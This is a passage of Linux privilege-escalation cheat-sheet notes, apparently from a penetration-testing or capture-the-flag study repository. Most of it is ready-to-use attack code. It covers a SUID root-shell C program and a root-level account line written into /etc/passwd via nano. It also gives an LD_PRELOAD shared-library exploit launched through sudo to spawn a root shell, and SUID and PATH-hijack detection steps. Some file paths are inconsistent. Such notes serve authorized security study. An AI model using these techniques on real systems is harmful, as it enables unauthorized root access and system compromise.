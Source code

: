 ```bash
ls -la bash

# copy binary prog or script
echo 'int main() { setgid(0); setuid(0); system("/bin/bash") ; return 0; }' > /tmp/raj/x.c 
gcc /tmp/mountme/x.c -o /tmp/raj/x
chmod +s /tmp/raj/x

#execution on victim machine for binary prog (GTFO - SUID)
cd /home
ls
./bash -p

#execution on victim machine for script
cd /home
./x

#nano to edit passwd file
./nano -p etc/passwd
raj:x:0:0:,,,:/home/raj:/bin/bash
```

5. LD_PRELOAD
- LD_Preload: It is an environment variable that lists shared libraries with functions that override the standard set
- Detection: `sudo -l`, look out for `env_reset`, `env_keep += LD_PRELOAD`
- exploitation: 
```bash
cd tmp
nano shell.c

#exploit code, can be found at hack tricks
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/sh");
}

#compile command
gcc -fPIC -shared -o shell.so shell.c -nostartfiles

#launch exploit
ls -al shell.so
sudo LD_PRELOAD=/tmp/shell.so find
```

6. Using PATH Variable
- detection: run `find / -perm -u=s -type f 2>/dev/null`, check if there is non-system program/directory e.g. /home/raj/script. in that directory, there MUST exist a provided shell/program for us to execute i.e. shell2
- assuming shell2 is found in /home/raj/script, and is running system function 'ps'. it can be 'id', etc
```c
#example shell2 code that must contain system binaries
#include<unistd.h>
void main()
{setuid(0);
setgid(0);
system("ps");
}
```
